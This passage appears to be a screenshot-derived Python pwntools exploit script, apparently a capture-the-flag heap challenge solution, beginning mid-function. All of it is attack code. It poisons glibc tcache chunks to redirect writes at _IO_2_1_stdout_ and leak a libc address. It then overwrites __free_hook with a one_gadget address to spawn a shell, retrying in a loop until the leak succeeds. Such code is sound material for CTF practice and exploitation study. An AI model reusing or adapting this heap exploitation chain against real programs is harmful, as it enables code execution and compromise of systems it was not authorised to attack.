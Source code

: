 ```py
	sl(b"1")
	ru(b"Size?\n")
	sl(str(size).encode())
	ru(b"t?\n")
	sn(content)
def clearN():
	ru(b">>")
	sl(b"1")
	ru(b"Size?\n")
	sl(str(0).encode())
	ru(b"t?\n")
	sn(b'')
def ba():
	ru(b">>")
	sl(b"666")

while 1:
	p = process(filename)
	try:
		reallocN(0x20, b'aaa')
		clearN()
		reallocN(0x100, b'bbb')
		reallocN(0xa0, b'bbb')
		for i in range(7):
			freeN()
		clearN()
		reallocN(0x20, b'aaa')
		reallocN(0xc0, b'c'*0x20 + p64(0) + p64(0x51) + p16((0x6 << 0xc) + (l.symbols['_IO_2_1_stdout_'] & 0xfff)))
		clearN()
		reallocN(0xa0, b'aaa')
		clearN()
		payload = p64(0xfbad1887) + p64(0)*3+ p8(0x58)
		reallocN(0xa0, payload)
		leak = uu64(rn(6))
		if leak >> 40 != 0x7f:
			raise Exception("error")
		lg("leak")
		libc_addr = leak - 0x3e82a0
		one_gadget= libc_addr + 0x4f3c2
		lg("libc_addr")

		ba()
		payload = b'a'*0x20 + p64(0) + p64(0x41) + p64(libc_addr + l.symbols['__free_hook'])
		reallocN(0xd0, payload)
		clearN()
		reallocN(0x40, b'aaa')
		clearN()
		reallocN(0x40, p64(one_gadget))
		freeN()

		debugPID()
		irt()
	except Exception as e:
		print(e)
		# debugPID()
		p.close()
		continue
```

